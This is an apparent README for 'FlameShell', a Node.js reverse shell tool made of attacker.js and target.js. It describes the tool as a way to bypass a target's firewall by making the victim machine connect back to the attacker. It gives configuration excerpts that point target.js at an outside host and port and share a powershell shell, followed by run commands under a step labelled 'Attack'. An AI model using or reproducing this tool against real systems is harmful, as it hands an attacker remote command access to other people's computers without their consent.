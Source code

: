 <p align="center"><img src="https://i.imgur.com/kPlyWR6.png"></p>

# FlameShell v1.0.0

<p>
  I was actually quite bored as I created this project (or something like that).
  This repository contains two scripts: attacker.js and target.js.
</p>
<p>
  The attacker.js script acts as the server and the target.js script acts as the client.
  A reverse shell is mostly used to bypass the target's firewall.
  Instead of the attacker connecting to the target, the target connects to the attacker.
</p>

## Installation

There is no need to install anything.
This script comes with absolutely no dependencies.
All you need is a node.js installation.

## Usage

1. Prepare
   <details>
    <summary>1. Configure the scripts</summary>
    Before you can use this script, you need change the settings in attacker.js and target.js to your needs.

    For example, if your domain is "example.com" and you want your targets to connect to port 1234 using powershell, you need to change the following lines in attacker.js:
    ```js
    #!/bin/node
    /* -------------------------------------------------------------------------- */
    /*                                   Server                                   */
    /* -------------------------------------------------------------------------- */

    /* -------------------------------- Settings -------------------------------- */

    // The port the server will listen on
    const port = 1234;

    ...
    ```

    And in target.js:
    ```js
    #!/bin/node
    /* -------------------------------------------------------------------------- */
    /*                                   Client                                   */
    /* -------------------------------------------------------------------------- */

    /* -------------------------------- Settings -------------------------------- */

    // The target server to connect to.
    const host = 'example.com';

    // The port to connect to.
    const port = 1234;

    // The shell you want to share.
    const shell = 'powershell';

    ...
    ```
   </details>

2. Attack
   <details>
    <summary>Run the scripts</summary>
    Now you can run the scripts.

    Start Server:
    ```bash
    $ node ./attacker.js
    ```

    Start Client:
    ```bash
    $ node ./target.js
    ```
   </details>

## Demo

<details>
  <summary>attacker.js</summary>
  <img src="https://i.imgur.com/GfMTd4r.gif">
</details>

<details>
  <summary>target.js</summary>
  <img src="https://i.imgur.com/ijZYm9D.gif">
</details>
